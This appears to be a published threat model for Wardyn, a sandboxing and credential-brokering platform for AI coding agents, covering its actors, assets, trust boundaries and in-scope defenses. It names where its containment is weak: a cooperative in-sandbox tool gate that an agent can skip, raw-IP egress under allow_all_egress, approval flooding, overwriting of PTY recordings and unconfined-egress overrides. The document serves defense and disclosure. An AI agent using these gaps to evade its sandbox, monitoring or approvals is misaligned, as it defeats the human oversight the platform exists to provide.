



# Wardyn Published Threat Model

**Version:** v2 (tracks the shipped codebase; last reviewed at v0.6.6)
**Status:** published alongside the codebase.

**Implementation status markers.** Controls are tagged inline: **[shipped]**
(enforced in code today; sometimes dated or qualified — `[v0.5+ shipped]`,
`[v0.6 shipped]`, `[shipped, default-on]`, `[experimental]`) or **[planned]**.
An untagged control is shipped. Per the project's anti-overclaim rule, any
untagged claim not actually enforced in code is a bug, not prose license —
report it.

**Scannability icons.** Status columns prefix (never replace) the word:
🟢 trusted / shipped / stable · 🟡 partially trusted / partial / planned ·
⛔ untrusted / refused.

**Scope.** This is the threat model of the WARDYN IMPLEMENTATION: its assets,
trust boundaries, residuals. It is deliberately Wardyn-shaped and does not
travel. For the portable layer — shared terminology, threat categories for agent
systems generally, and who owns which control — see
[AGENT-THREAT-MODEL.md](AGENT-THREAT-MODEL.md), whose every category carries a
coverage verdict pointing back into this document.

---

## 0. Why We Publish This

Every prior vendor in this space overclaimed: one marketed its egress veto as
unbypassable and its own red team then documented the `ld-linux`/`mmap` bypass;
another shipped a sandbox-escape CVE; a third's egress firewall was blind to MCP
traffic.

This document states what Wardyn defends and — explicitly — what it does not.
**Overclaiming is the industry failure mode we are designed to avoid.** Where a
control is load-bearing for a claim, the bypass class that defeats it is named
here. Security researchers should treat the out-of-scope section as an
invitation, not an embarrassment.

---

## 1. Actors

| Actor | Capability | Trust |
|---|---|---|
| **Honest developer** | Requests an agent run; reviews/merges PRs; owns the human `sub` in the delegation chain | 🟡 Trusted-but-accountable. Not granted the agent's runtime access. |
| **Prompt-injected agent (primary adversary)** | Arbitrary code execution inside its sandbox; reads any in-sandbox file; drives any tool the gateway exposes. Hostile payload arrives via repo content, web fetch, MCP tool output, dependency or issue text. | ⛔ **Untrusted.** This is the threat the whole platform exists to contain. |
| **Malicious insider (developer)** | Legitimately launches agent runs; uses the agent as laundering/cover for actions they could not perform under their own identity, or to dodge attribution. | 🟡 Authenticated, partially trusted, audited. |
| **Member on a member-mode desktop (topology m′)** | The human at the keyboard of an org-managed laptop where `WARDYN_MEMBER_MODE=true`: an OIDC session deriving `member`, so `isOperator` is false on every request. Onboards their OWN workspaces and mounts their OWN project directories into runs. Is **root on the laptop**, but is NOT the governance authority — config, policy and the admin credential are MDM/IdP-held. | 🟡 Authenticated, partially trusted, audited. Distinct from "malicious insider": a DESKTOP-tier insider *is* the admin (`docs/DESKTOP.md`), a member-mode developer deliberately is not — which makes the member-mount root allowlist a real boundary rather than a suggestion, with residual #26 its honest limit. |
| **Compromised dependency / supply chain** | Code executing with agent privileges inside the sandbox (build tooling, npm/pip postinstall, MCP server image). | ⛔ Untrusted; collapses into "prompt-injected agent" for containment purposes. |
| **Repo-supplied devcontainer/build content** | Arbitrary `Dockerfile` `RUN` / devcontainer feature / lifecycle-command execution during a workspace image build (`internal/envbuild`'s ENVBUILDER stage) — BEFORE any confinement tier exists. | ⛔ **Untrusted.** Executes on the host build container, not inside a Confinement Class and not behind `wardyn-proxy` — see residual #13 and boundary B8. |
| **External network attacker** | Hosts malicious endpoints; attempts domain fronting, DNS rebinding, confused-deputy against the egress/git proxy. | ⛔ Untrusted, off-box. |
| **Compromised single runner node** | Root on one runner host; tries lateral movement to control plane, other tenants' sandboxes, or the secret store. | ⛔ Untrusted after compromise; blast-radius containment target. |
| **Platform operator / SRE (super admin)** | Admin of the control plane (`admin`; `isOperator`). | 🟢 Trusted. Out of scope as an adversary in v1 (insider-admin threat = future hardening). |
| **Security admin (`security_admin`, v0.7)** | The SECOND admin tier — **beside** the super admin, not below it (`internal/auth/oidc`'s `RoleSecurityAdmin`; the `securityOps` router group, admitted by `isSecurityOperator`). Governs the deployment's security posture: approval decisions of any kind on any run, audit read/export and chain verify, capability-grant CRUD and the enforcement switches, governance profiles, session/token revocation, workspace egress writes, and — through `ownsRunOrAdmin` — `POST /runs/{id}/kill` on a run they do not own. Deliberately CANNOT reach INTO a run: no attach ticket, no cookie attach lane, no take-over (`ownsRunOrSuperAdmin`), SSH keys stamped `member`, and no host-wide act such as `POST /api/v1/admin/sandboxes/sweep`. Capability-BOUNDED exactly like a member — `capAllowed`/`capGranted` exempt `isOperator` only, so no grant kind can widen this tier. | 🟡 Trusted for governance; untrusted for run-reach, credential material and the host. The separation is real but partial — residual #14 states what it does and does not separate. |

---

## 2. Assets (ranked by blast radius)

1. **Long-lived root secrets** — GitHub App private key, cloud-provider
   STS-federation trust, model-provider API keys, SPIRE upstream CA key,
   OpenBao unseal/root. Held only by the token broker, OpenBao and SPIRE server.
   Never in any sandbox.
2. **The minting authority** — the broker's ability to issue scoped tokens.
   Compromising the minting decision path is worse than stealing one minted
   token.
3. **Minted short-lived credentials** — 1h repo-scoped GitHub installation
   tokens, ~1h cloud STS credentials, OAuth-exchange tokens. Bounded by TTL,
   scope and audience.
4. **Source code + the git push capability.** The minted GitHub installation
   token is repo-scoped and permission-clamped (max `contents:write` +
   `pull_requests:write`, 1h TTL). Bot-branch-namespace confinement
   (`wardyn/<run-id>/*`) is **[shipped, default-on]** at the git-broker proxy
   route: it parses the `git-receive-pack` pkt-line command section and refuses
   every ref outside `refs/heads/wardyn/<run-id>/` (including deletes) before the
   token is minted. No opt-in is needed because `agent-run` checks each cloned repo
   out onto `wardyn/<run-id>/work`;
   `WARDYN_GIT_BROKER_ENFORCE_BRANCH_NS=false` is the escape hatch.

   Dispatch also subtracts and denies the broker-managed GitHub hosts —
   `github.com`, `api.github.com`, `codeload.github.com`,
   `*.githubusercontent.com`, plus that forge's `ssh.<forge>` SSH-over-443
   endpoint — so the brokered route is the only route to those host NAMES, and
   `wardyn-git-helper` no longer mints an installation token into a brokered
   sandbox at all. It is a NAME deny: the verdict keys on the host string the
   sandbox asked for, so a raw-IP `CONNECT` is a different key, which
   `allow_all_egress` would permit (measured). See `docs/POLICIES.md`.

   **The parser binds the brokered App lane only, but on the SAME forge no second
   lane is left beside it.** A `git_pat` push is an opaque CONNECT and an `ssh_key`
   push is not smart-HTTP, so no receive-pack parser can bind either — but for a
   forge a run IS brokered for, `api.validateGrantLaneExclusivity` refuses a policy
   declaring a `github_token` grant alongside an `ssh_key` **or** `git_pat` grant
   for it, and dispatch's `api.dropBrokeredGrants` withholds any already-stored
   `ssh_key` **or** `git_pat` grant from the sandbox env (audited
   `run.ssh.brokered_forge`) on top of denying the endpoint — the key is never
   resident, not merely unreachable. (This reverses an earlier decision recorded in
   the same review; `confineGitBrokerEgress`,
   `internal/api/runs_dispatch_gitbroker.go`, says why deliberately.) An
   **unbrokered** SSH credential — an `ssh_key` for a forge holding no
   `github_token` (`dev.azure.com`, or `github.com` with no repos granted) — keeps
   the old shape: written for the clone only (`wipe_ssh_grants` shreds it and
   unsets `GIT_SSH_COMMAND` before the agent starts), a narrowing and not a
   confinement, since the grant id still rides `WARDYN_SSH_GRANTS` and an
   auto-mintable grant is re-mintable by design — bounded by the operator who
   supplied it, not by Wardyn.

   A token exfiltrated from the proxy itself is bounded only by whatever
   GitHub-side ruleset the operator created: `VerifyRefRuleset`
   (`internal/broker/ruleset.go`) reads it back — `creation`, `update` and
   `deletion` in force outside the run namespace, neither in force inside it, every
   backing ruleset's `current_user_can_bypass` equal to `"never"` — the setup
   checklist grades it (never `fail`, only `warn`/unknown), and
   `WARDYN_GITHUB_REQUIRE_REF_RULESET` (opt-in, default off) turns the same read
   into a pre-mint gate. Branches only: the ruleset leaves `refs/tags/*` open, and
   classic branch protection (a different API) does not surface in the rules
   endpoint this reads, so a repo protected that way still grades unconfined.

5. **Audit integrity** — the append-only control-plane log, eBPF ground truth,
   PTY recordings. Tampering defeats incident response. Append-only protects what
   IS written; it does not yet guarantee every control-plane action produces an
   event, and PTY recordings are tamper-EVIDENT, not tamper-proof (§4 "Audit
   tampering by in-sandbox actor"). Control-plane audit writes (identity
   mint/revoke, approval decide, broker mint/revoke) are still best-effort AT THE
   CALL SITE (fire-and-forget, not wrapped in the mint transaction) — but the
   shared recorder chain (`maskingRecorder -> spoolingRecorder -> auditRec`,
   shared by API, broker, identity, approvals and sweeper) spools a failed primary
   Postgres write to a durable local append-only JSONL fallback
   (`WARDYN_AUDIT_SPOOL`) instead of silently dropping it. That is durability via a
   local fallback, not a transactional guarantee — a write and its spool append can
   still both fail (logged loudly); see `ARCHITECTURE.md` invariant 6. The
   ground-truth ingest path (§4) is already fail-closed.
6. **Tenant isolation** — one tenant's sandbox must not reach another's
   workload, secrets or network.
7. **The delegation chain** (`sub=human`, `act=agent-run-SPIFFE-ID`) —
   attribution integrity; target of the IETF delegation-chain-splicing attack
   class (March 2026).
8. **The authorization source itself — `role_mappings` and `governance_profiles`**
   (migrations `0051_role_mappings.sql`, `0052_governance_profiles.sql`,
   `0053_role_mappings_security_admin.sql`). Ranked LAST by immediacy and near
   the top by consequence: since v0.7 the role a session derives is not only
   env-authored (`WARDYN_OIDC_ROLE_MAP`) but DB-resident and console-writable, and
   `0053` widened `role_mappings.role` to accept `security_admin`. A write there
   mints an admin tier at the subject's NEXT LOGIN — no restart, no config change,
   nothing in the process's own environment to review. That is why the writing
   authority is the narrower one: all four `/access` routes are `operatorOnly`
   (super admin), never `securityOps`, so the second tier cannot promote itself or
   anyone else. Bounded by attribution, not prevention
   (`access.role_mapping.write`/`.delete`), and by `validDefaultRole`
   (`cmd/wardynd`) refusing `security_admin` as `WARDYN_OIDC_DEFAULT_ROLE` — a
   fallthrough tier is exactly the accident that must never grant it.

---

## 3. Trust Boundaries

| Boundary | Status | Description |
|---|---|---|
| **B1 — Sandbox vs. everything else** | 🟢 shipped | The hard boundary; the agent runs on the untrusted side. Enforced by isolation tier (runc-hardened / gVisor / Kata) and L0 structural network confinement. Every higher-layer control assumes the agent is hostile here. |
| **B2 — Sandbox vs. egress proxy** | 🟢 shipped | Sole network path out is the wardyn-proxy sidecar, default-deny. `HTTP_PROXY`/`HTTPS_PROXY` are set for compatibility; the env-var-bypass class is defended structurally at L0 (gatewayless network → no route to bypass to), not by omitting the var. |
| **B3 — Sandbox vs. MCP/tool gateway** | 🟡 **partial (L3)** | Separate enforcement plane from B2 — a prior agent egress firewall was blind to MCP traffic, so tool egress is a first-class boundary. **Shipped half (v0.7):** a per-tool-call DECISION plane. `cmd/wardyn-toolgate` — an in-sandbox stdio MCP relay built into the agent images — is wired as claude's `--permission-prompt-tool` on a run dispatched with `tool_approvals=hold`; it raises each call through the proxy's brokered `POST /wardyn/v1/approvals`, and the run's OPERATOR-authored `tool_rules` are resolved PROXY-SIDE (`decideByToolRules`, outside the sandbox, on the policy the control plane resolved): `allow`/`deny` answer immediately with no human, `hold` raises the approval, and all three write a decision-log row. **Bypass class, and it is the whole boundary question:** the gate is IN-SANDBOX and COOPERATIVE — an agent that does not call it is not gated, the harness auto-approves its own read-only-safe command class without consulting it, and it covers one harness. A decision plane, not a containment one. Note also that `ToolAllow` is WIDENING authority evaluated outside the sandbox: an operator writing `tool_rules` is pre-approving calls no human will see. **Planned half:** interception of MCP tool-call EGRESS, which is what would make this a boundary rather than a protocol both sides have to honour. |
| **B4 — Agent-run identity vs. token broker** | 🟢 shipped | SVID-authenticated; the broker is the only thing that can turn an identity and an approval into a credential. |
| **B5 — Approval gate vs. credential issuance** | 🟢 shipped | Novel coupling: a high-risk action's approval is what mints the scoped token. No prior art; threat-modeled fresh in §4. |
| **B6 — Runner data plane vs. control plane** | 🟡 partial | mTLS via X.509-SVID **[planned, arrives with SPIRE]**. Today a per-run bearer token (minted by the embedded identity provider, verified via `internalAuth`) authenticates runner/sidecar callbacks over the operator's network — not mTLS. A compromised runner is assumed; the control plane never trusts runner-asserted identity claims. |
| **B7 — Control plane vs. SIEM/customer** | 🟢 shipped | Outbound-only export (OTLP/HEC/syslog); no inbound trust. |
| **B8 — Untrusted build container vs. host daemon + registry** | 🟢 shipped | The devcontainer build / BYOI wrap (`internal/envbuild`) runs on the HOST Docker daemon, before any confinement tier exists. Capped (CapDrop ALL, resource limits) but not sandboxed by a Confinement Class and not behind `wardyn-proxy`; reaches only `WARDYN_ENVBUILD_BUILD_NETWORK` (compose default: the sandboxes' own bridge, never `host`) plus the layer-cache registry. Residual #13. |
| **B9 — SSH gateway pre-auth listener vs. everything else** | 🟢 **[v0.5+ shipped]** | An anonymous-until-authenticated TCP listener (`WARDYN_SSH_LISTEN`). The DAEMON default is off — no var set, no listener, no host key generated — but **two shipped deployments turn it on for every install**: the one-line installer writes `WARDYN_SSH_LISTEN=:2222` into every `.env` it creates *and backfills it on upgrade*, and the desktop envelope ships it on. So this boundary is live on every managed laptop and every `curl … | sh` box, bound to loopback by the compose host-port publish (`127.0.0.1:2222`) rather than left unexposed. Registered-public-key-only auth; the trust root is the `ssh_public_keys` registry a human writes via self-service `/api/v1/me/ssh-keys`, so this boundary is exactly as strong as that registration step and the pre-auth DoS bounds (§4). Once authenticated, a session is bounded by owner-or-admin authorization (residual #15) and runs entirely inside B1: shell/exec/sftp/`-L` are bridged into the EXISTING sandbox via the same `Runner.Attach`/`ExecStream` calls the browser terminal uses. A new front door, not a new back door. |
| **B10 — UI-sandbox gateway origin vs. the console origin** | 🟢 **[v0.6 shipped]** | A second HTTP listener (`WARDYN_UI_SANDBOX_LISTEN`, off by default — no var set, no listener, not even a relay cookie key generated) relaying one policy-declared sandbox loopback port to a browser (`docs/UI-SANDBOXES.md`). What crosses is **content authored inside B1** — the relayed app's own HTML/JS executing in the operator's browser — so this is a BROWSER-ORIGIN boundary and the separate origin is the enforcement: boot refuses a listen address equal to `-listen`, because on the console's origin that sandbox-authored code could read the console's token storage (see "Console auth token storage") and drive every admin action. Like B9 the bytes ride the SAME `Runner.ExecStream` + `socat` lane the SSH `-L` forward uses, inside the existing sandbox netns — no pod/container-IP dial, no NetworkPolicy delta. |
| **B11 — Governance authority vs. the authorization source** | 🟢 **[v0.7 shipped]** | The boundary between the tier that GOVERNS a deployment and the tier that decides who holds a tier at all. v0.7 splits admin in two (`isOperator` = super only, `isSecurityOperator` = super OR `security_admin`) and moves the role map into the database (asset #8), so "who is an admin" became a console-writable row. The boundary is the router split: every `/access` route — the one write path into `role_mappings` — is `operatorOnly`, while the governance surfaces the second tier owns are `securityOps`. A security admin therefore governs the posture and cannot promote anyone, including themselves; the two tiers sit BESIDE each other rather than nested, which is why `security_admin` never satisfies a check that means "reaches into a run it does not own" (SSH-key role stamps, attach tickets, take-over). Refusals on each side audit distinctly (`authz.denied` `reason` `admin_surface` vs `security_admin_surface`) so a reader can tell WHICH tier a denial was measured against. Residual #14. |

On a single-operator machine the boundaries compose into a strict containment
ladder — Wardyn never *adds* power beyond what the operating user already has:


```mermaid
flowchart TB
  %% nesting: containment rings, not flow — this diagram has no edges by design
  subgraph host["The operating user — everything YOU can do is the hard ceiling"]
    subgraph ceiling["Wardyn policy ceiling — what the operator allows at all"]
      subgraph run["One run's grant — the MINIMUM its task needs"]
        g["repo-scoped, short-lived minted credential<br/>this task's egress allowlist<br/>only onboarded workspace mounts"]
      end
    end
  end
```

A sandbox can at most reach what the operating user can; operator policy clamps
that ceiling down; each run receives only the minimal subset its task needs.

---

## 4. In-Scope Defenses

These attack classes are **defended by design**. Where a mitigation has a
residual or bypass class, it is noted and also listed in §5.

| Layer | Mechanism | What it stops |
|---|---|---|
| L0 structural 🟢 **[shipped]** | Sandbox network is gatewayless (`Internal:true`); the only off-host path is the wardyn-proxy sidecar | `HTTP_PROXY` env-var bypass class (no route exists to bypass to); direct IP egress |
| L1 default-deny 🟢 **[shipped on Kubernetes]** / 🟡 **[Docker planned]** | Kubernetes: per-run NetworkPolicy default-deny (agent egress only to its own proxy; metadata `169.254.169.254` excluded), enforcement PROVEN by the boot canary — a non-enforcing CNI refuses boot **unless the operator sets `WARDYN_K8S_ALLOW_UNENFORCED_NETPOL=1` or `WARDYN_K8S_ACK_AMBIENT_DEFAULT_DENY=1`; both are disclosed in §5's "Operator overrides that boot past a fail-closed gate"**. Docker: nftables default-deny **[planned]** (L0 stands in structurally). Cilium toFQDNs **[planned]** | Non-HTTP raw-socket tunnels that never reach the proxy process; extends "no route but the proxy" to Kubernetes. Depth ATOP the metadata/link-local guard L2 already enforces — the metadata block does not wait on L1 |
| L2 wardyn-proxy 🟢 **[shipped]** | Domain allowlist (exact + `*.` wildcard); method rules; first-use approval (`always_deny` / `deny_with_review` / `wait_for_review`, which holds the connection for a live operator decision); proxy-side credential injection; and an unconditional loopback/link-local/multicast/private-reserved/metadata/NAT64-embedded-v4 guard `allow_all_egress` does not reach — §4.2 for the guard and its one admin-authored exception | L7 exfil to unlisted domains; token leakage into sandbox; metadata-server theft and DNS-rebinding, including under `allow_all_egress` |
| L3 MCP gateway 🟡 **[partial]** | Per-tool-call approval and logging **[shipped]**: `tool_rules` resolved proxy-side (`decideByToolRules`) plus the in-sandbox `cmd/wardyn-toolgate` relay, every outcome on the decision log. Interception of tool-call EGRESS **[planned]** | The shipped half stops a gated tool call the operator's rules refuse, and records the rest. It does NOT stop tool-call egress: the relay is in-sandbox and cooperative (B3), so an agent that never calls it is not gated |

Four egress layers stack outward: L0 structural confinement (Docker) and the L2
proxy carry enforcement on every path, L1 is shipped on Kubernetes
(canary-proven NetworkPolicy; the Docker nftables form remains planned), and L3
is partial — its decision half ships, its interception half does not.

**Substrate delta: Docker (L0) vs Kubernetes (L1).** Docker's guarantee is
*absence of route* — the per-run network is gatewayless. Kubernetes pods always
get a routable network, so a k8s substrate can only offer L1: a `NetworkPolicy`
default-deny *packet filter*, enforced by the cluster's CNI. A filter is only as
trustworthy as its enforcer, and CNIs are known to silently no-op
`NetworkPolicy` for some rule shapes — so a boot-time two-phase canary runs from
inside the sandbox's own netns right after the deny policy applies (phase 1: the
wardyn-proxy sidecar still reachable; phase 2: an address outside the allowlist
unreachable), and the substrate **refuses to boot the sandbox — fail closed,
advertising no Confinement Class** — if either phase disagrees. That is the
honest `NetworkPolicy` bool on `substrate.ClassSupport`: proven by the canary,
never claimed because a policy object was applied.

**Two operator overrides boot past that refusal, and a deployment that sets one
is not the deployment described above.** `WARDYN_K8S_ALLOW_UNENFORCED_NETPOL=1`
proceeds after the canary PROVED the CNI does not enforce NetworkPolicy — the
driver's own boot warning is the honest reading of what that costs: "every
sandbox this substrate creates has UNCONFINED egress". `WARDYN_K8S_ACK_AMBIENT_DEFAULT_DENY=1`
proceeds when phase A failed in the shape a platform-applied ambient default-deny
produces; phase B (the test that would actually prove Wardyn's own policy binds)
is then SKIPPED rather than run for show, so the result is an acknowledgment, not
proof. Neither override is silent: each logs an unmissable boot warning, and each
is graded on the setup checklist's `k8s_egress_containment` row — `fail` for the
first, `warn` ("acknowledged, not proven") for the second, never `ok`. They are
listed with the third such knob in §5's "Operator overrides that boot past a
fail-closed gate".

| Attack | Defense | Load-bearing layers |
|---|---|---|
| Prompt-injected agent reads resident secrets | Secrets are never in the sandbox, with a named, bounded exception list — **§5.1a is the complete set**. Every other credential is late-bound via the broker and injected proxy-side. Output masking **[shipped]**, with two named unmasked paths and a fail-open registry — §4.1 | B1, B2, B4 |
| Env-var proxy bypass (documented industry bypass class) | Designed out at L0: the sandbox network is gatewayless (`Internal:true`), so ignoring the compatibility-only `HTTP_PROXY`/`HTTPS_PROXY` reaches no route. **[shipped]** | L0, B2 |
| Direct-IP / non-HTTP / metadata-server (169.254.169.254) egress | Closed twice over, independently: **L0 [shipped]** gatewaylessness (no off-host route at all) and **L2 [shipped]**'s unconditional IP guard, which runs AFTER the policy verdict so `allow_all_egress` cannot pass it — §4.2. L1 🟡 **[planned]** adds kernel-level depth; the metadata block does not wait on it | L0, L2 (L1 adds depth) |
| MCP/tool-call egress that bypasses the network proxy | Caught at L3, a separate tool-call gateway plane (the documented MCP-blind-firewall class designed out). 🟡 **[partial]**: the DECISION half ships — operator-authored `tool_rules` resolved proxy-side by `decideByToolRules`, the in-sandbox `cmd/wardyn-toolgate` relay, and a `tool_call` approval for anything on `hold` — but the relay is cooperative, so the EGRESS-interception half that would close this class is still planned and the class stays open below L2. | L3, B3 |
| Sandbox writing into the control plane through the brokered approvals route | `POST /wardyn/v1/approvals` is dispatched by the proxy on EVERY run, not only `tool_approvals=hold` runs, so it is an INBOUND write surface from inside B1: a sandbox can persist a `tool_call` approval carrying agent-supplied `tool`, `cmd` and env-var NAMES. Bounded structurally rather than by trust — the sandbox presents no credential of its own (`forwardToControlPlane` injects the run token on the control-plane leg only, so the row it raises can only be this run's), the route accepts kind `tool_call` and nothing else, an approval naming neither a tool nor a command is refused rather than persisted as an undecidable card, and every field is capped for the human who reads it (64 KiB body, 4 KiB `cmd`, 128 B tool name, 32 env NAMES — values never cross). What is NOT bounded is VOLUME: nothing rate-limits how many approvals one run may raise, so approval flooding/fatigue (AGENT-THREAT-MODEL row 13) is the live attack here, and the operator's lever is `tool_rules` — a `deny` answers proxy-side without waking anyone. | B1, B5, AU |
| Container-runtime escape via known runc/containerd CVE classes | Hardened-runc floor on Docker (cap-drop ALL, no-new-privileges, tmpfs, RuntimeDefault seccomp — never `unconfined` — host-gated AppArmor) and container-level PSS hardening on every Kubernetes pod (`baseSecurityContext`, `internal/runner/k8s/naming.go`) **[shipped]**; userns (`hostUsers:false`) + no hostPath **[planned]** — §7 CC1 states the full posture. Default CC2 (gVisor) interposes a userspace kernel where `runsc` is present. | CC2, L0 |
| Syscall-surface kernel attacks | In scope at CC2 (gVisor userspace kernel interception, default) and CC3 (Kata hardware-virt boundary) for adversarial workloads. | CC2, CC3 |
| Host-side RCE at image-wrap time from a hostile BYOI base (`ONBUILD` triggers) | A `FROM` fires `ONBUILD` triggers baked into the base — the one way a base's content reaches the host *before* confinement exists. Docker offers no flag to suppress them, so the base is preflighted (`ImageInspect`) and the wrap **refused** if it declares any (`assertWrapSafeBase`), on the BYOI and devcontainer paths; Wardyn pulls the base itself rather than via `PullParent`, so the wrap builds `FROM` the exact image inspected **[shipped]**. Wrapping is not vetting — residual #13 states what stays open. | B1 |
| Over-broad or replayed minted credentials | Down-scoped at mint (repo + permission, 1h TTL) **[shipped]** — a GitHub App INSTALLATION token, so the scope is the repository set and the permission clamp `MintInstallationToken` sends, and nothing else: GitHub's endpoint takes no audience or resource indicator, so this credential is not audience-bound (the RFC 8707 discipline in Wardyn is the per-run IDENTITY token's, `internal/identity`, which is a different credential); kill-switch cascade on run end **[shipped]**; bot-branch-only push confinement **[shipped, default-on]** (`internal/egress/proxy/git_broker.go`). Endpoint deny, lane exclusivity and the `VerifyRefRuleset` gate: asset #4. Token-side confinement is read-verifiable and gateable, never created by Wardyn. | B4, B5, ID |
| Confused-deputy against the token broker | SVID-authenticated callers; egress allowlist and injection-rule registration are separate capabilities. | B4 |
| Insider hiding behind agent identity | `sub=human` + `act=agent-run-SPIFFE-ID` + `sponsor` in every token, commit and audit event. The agent never replaces the human in the chain — it is added to it. | AU, ID |
| Insider exceeding own access via agent | Minted credentials are scoped to the task, not the human's full access; the agent never inherits developer credentials. PARTIAL: that ceiling is set by policy/site-config, and rewriting either is an OPERATOR act — policy CRUD and `PUT /site-config` sit behind `requireOperator`, so with `WARDYN_OIDC_OPERATOR_EMAILS` set a signed-in viewer cannot raise their own ceiling. Above that line nothing separates duties — residual #14. | B5, ID |
| Member escalating past a capability grant | **[v0.6 shipped; two kinds added in v0.7]** Capability grants (`capability_grants`, migration `0042`) bound what a MEMBER chose on the six closed kinds `capabilityKinds` names, resolved deny-before-allow-before-switch by one resolver (`capAllowed`/`capGranted`). **EVERY switch ships OFF** — fail-open by design, residual #20 — and a capability never narrows what the ADMIN pre-authorized. Mechanism: §4.3 | B5, ID, AU |
| Member mounting a host directory the operator never allowed | **[v0.6 shipped]** A member-owned workspace is the ONLY path on which a non-operator supplies a host bind source, gated additively: operator deny-list, then a canonicalized real path inside an operator/MDM-set root, then a credential-dotfile deny-list. Unset roots = no member host mounts at all. Mechanism: §4.4. Residuals #25, #26 | B1, ID |
| Audit tampering by in-sandbox actor | Append-only Postgres log (UPDATE/DELETE trigger raises exception) **[shipped]**; tamper-proof eBPF/Tetragon ground-truth stream **[shipped]** (host sensor + `wardyn-tetragon-ingest` → `kernel.*` via `POST /api/v1/internal/groundtruth`), correlated on `run_id`, exported free to SIEM. PTY replay is tamper-EVIDENT, not tamper-proof: the upload route accepts a run-token-authenticated PUT for the run's whole lifetime and upserts on conflict, so an in-sandbox actor can overwrite its own cast before the run ends — but every upload emits its own `recording.upload` row, so the overwrite is visible even though the replaced bytes are not recoverable. Detection-only (the `ld-linux`/`mmap` bypass is flagged, never blocked); honestly degradable (`/healthz` reports `ebpf_groundtruth=unavailable`); host eBPF is blind inside CC3/Kata (`kernel.sensor.blind`). | AU |
| Audit rewriting by a DATABASE-level actor (past the append-only triggers) | **[v0.6 shipped]** Migration `0047_audit_hash_chain.sql` makes ONE such rewrite detectable: every post-migration row carries a `row_hash` computed **inside Postgres** in a `BEFORE INSERT` trigger, so the writer cannot choose it. **Tamper-EVIDENCE, not tamper-proofness** — a re-chained tail verifies clean. Detail: §4.5 | AU |
| Delegation-chain-splicing on nested `act` claims (IETF March 2026) | Chain integrity-protected end-to-end. Flagged as active research; we defend and monitor, not declare solved. | ID, B5 |
| Inter-tenant lateral movement | Docker: a separate per-run `Internal:true` network per sandbox (no shared bridge, no cross-run route) + per-run identity scoping **[shipped]**. Kubernetes: default-deny east-west NetworkPolicy **[shipped]** (empty-ingress + own-proxy-only egress per sandbox pod, `internal/runner/k8s/sandbox.go`). | B1, L0 (L1), ID |
| Fleet-policy disablement before malicious action | Policy changes are themselves audited — policy CRUD emits `policy.create/update/delete` **[shipped]**. Fail-closed narrow-only managed settings (`disableBypassPermissionsMode`) 🟡 **[planned]**. | AU |
| Slowloris / connection exhaustion against the SSH pre-auth listener | **[v0.5+ shipped]** Per-connection handshake deadline (cleared once authenticated — never bounds a live session), `MaxAuthTries`, and a bounded concurrent-connection count (a connection over the cap is closed before any handshake byte) — `ssh.NewServerConn` otherwise blocks forever with no library-default timeout. A SEPARATE bound covers what a `net.Conn` deadline cannot: `sshAuth` wraps its own work in a `sshAuthTimeout` (5s) context, so a `PublicKeyCallback` stuck on a store call or audit write cannot park a slot indefinitely. These bounds are load-bearing rather than belt-and-braces: the DAEMON default is off (`WARDYN_SSH_LISTEN` unset), but the one-line installer and the desktop envelope both ship it ON at `:2222` (see B9), so the listener exists on those deployments and only the loopback host-port publish keeps it off the network. | B9 |
| Impersonation / unregistered-key access to the SSH gateway | **[v0.5+ shipped]** Public-key auth only (no password/keyboard-interactive method is ever offered); the trust root is a fingerprint a human registers against their OWN principal (`POST /api/v1/me/ssh-keys`, self-service, no admin-on-behalf-of); authorization is owner-or-admin (`run.created_by == the key's principal`, OR the key's `role` column — migration `0043`, re-stamped bounded-stale on every OIDC login (`0046`, `WARDYN_SSH_ROLE_TTL`), never read live, residual #15). A member's key never satisfies the override. Every attempt is audited under `ssh.auth` with the source IP and, where a registered key was involved, the actual principal rather than "unknown". Bounds: `docs/SSH.md`. | B9, AU |
| SSH session resource exhaustion against one run | **[v0.5+ shipped]** A per-run cap on concurrent SSH channels — `session` (shell/exec/sftp) AND `direct-tcpip` (`-L` forwards) draw from the SAME counter — independent of the connection-level cap. | B9 |
| Unrecovered panic in a per-channel SSH goroutine crashing the daemon (and its kill switch) | **[v0.5+ shipped]** Every per-connection AND per-channel goroutine runs through one shared `sshGo` wrapper with `recover()` — a bug in one session never reaches the process. Distinct from a nil-Runner panic: `sshFreshRun` (every bridge's first call) refuses closed with a clean channel error when no Runner is configured (`-runner none`, a supported headless mode). | B1, B9 |
| SSH `-L` forwarding reaching past the sandbox | **[v0.5+ shipped]** The destination is validated as the sandbox's OWN loopback (`127.0.0.1`/`::1`/`localhost`) before any exec runs — refused otherwise, with a reason — and the sandbox has no OTHER route to forward to regardless (L0, invariant 3; the primitive is `socat` inside the existing netns). `-R` and agent/X11 forwarding are refused outright: the gateway serves no global requests (so `tcpip-forward` gets "request denied by peer") and never accepts either channel type. | B1, B9 |
| Sandbox-authored page reading the console session (UI-sandbox relay) | **[v0.6 shipped]** The relayed app is code from inside B1 running in the operator's browser, treated as hostile page content: served on a SEPARATE ORIGIN, with boot REFUSING a listen address equal to `-listen` (`validateUISandboxConfig`, `cmd/wardynd`). Cookies are not port-scoped, so a shared *hostname* would still leak: every forwarded request has ALL `wardyn_*` cookies plus `Authorization`/`Proxy-Authorization` and any `?ticket` STRIPPED, and every response has `Set-Cookie: wardyn_*` DROPPED (a sandbox-set `wardyn_ui_sess` would be an authentication attack, not a rendering quirk) — both pinned by `internal/api/uigateway_test.go`. `Referrer-Policy: no-referrer` keeps the enter URL's ticket out of outbound links; `X-Forwarded-*` is removed and deliberately not re-added. The console never iframes a relayed app. | B10, B1 |
| Unauthenticated / cross-run access to a relayed UI app | **[v0.6 shipped]** EXACTLY ONE authentication mechanism, never falling through to the console session cookie or admin bearer: a single-use, 30s, owner-or-admin attach ticket (the SAME `POST /runs/{id}/attach-ticket` the browser terminal mints) redeemed at `/__wardyn/enter`, which RE-CHECKS against fresh state what the ticket cannot prove — owner-or-admin for THIS run, run still `RUNNING` with a sandbox, app declared in the run's EFFECTIVE policy (from the `run.policy.effective` envelope, never `policy_id`, so an inline-policy run cannot inherit the default policy's apps). Only then is an HMAC-signed cookie issued: `HttpOnly`, `SameSite=Lax`, `Path=/r/<run-id>/`. Every cookie failure answers one indistinguishable 403: no fallback, no oracle. Every enter is audited (`ui.auth`). | B10, AU |
